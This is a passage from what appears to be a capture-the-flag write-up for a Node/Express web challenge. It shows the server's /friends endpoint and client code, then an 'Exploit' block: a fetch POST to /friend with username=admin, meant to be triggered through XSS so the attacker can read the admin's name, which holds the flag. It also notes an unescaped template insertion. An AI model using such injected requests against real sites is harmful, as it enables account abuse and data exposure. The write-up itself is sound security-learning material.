 ```javascript  
            })  
        )  
    );  
});

app.get("/friends", needsAuth, (req, res) => {  
    res.type("application/json");  
    res.send(  
        JSON.stringify(  
            accounts  
                .get(res.locals.user)  
                .friends.filter((username) => accounts.has(username))  
                .map((username) => ({  
                    username,  
                    displayName: accounts.get(username).displayName,  
                }))  
        )  
    );  
});

app.listen(port, () => {  
    console.log(`Listening on port ${port}`);  
});

```  
**index.html**  
```javascript  
fetch("/friends")  
    .then((res) => res.json())  
    .then((friends) => {  
        const list = document.getElementById("friendlist");  
        if (friends.length === 0) {  
            const ele = document.createElement("p");  
            ele.innerText = "you have none :(";  
            list.appendChild(ele);  
        }  
        for (const f of friends) {  
            const ele = document.createElement("p");  
            ele.innerText = `${f.displayName} (${f.username})`;  
            list.appendChild(ele);  
        }  
    });  
```  
We can see that the flag will be set as the name of the Administrator user. Names can be seen with the /friends endpoint, so using XSS, we can use a POST request to /friend and become "friends" with the administrator.  
**Exploit**  
```javascript  
fetch('/friend',{  
    method:'POST',  
    headers:{  
        "Content-type":'application/x-www-form-urlencoded'  
    },  
    body:'username=admin'  
})  
```  
With only a fetch request, we can use the metapost feature and see that it is replacing `$CONTENT` in the post.html file.  
```javascript  
const postTemplate = fs.readFileSync(path.join(__dirname, "post.html"), "utf8");  
app.get("/post/:id", (req, res) => {  
    if (posts.has(req.params.id)) {  
        res.type("text/html").send(postTemplate.replace("$CONTENT", () => posts.get(req.params.id)));  
```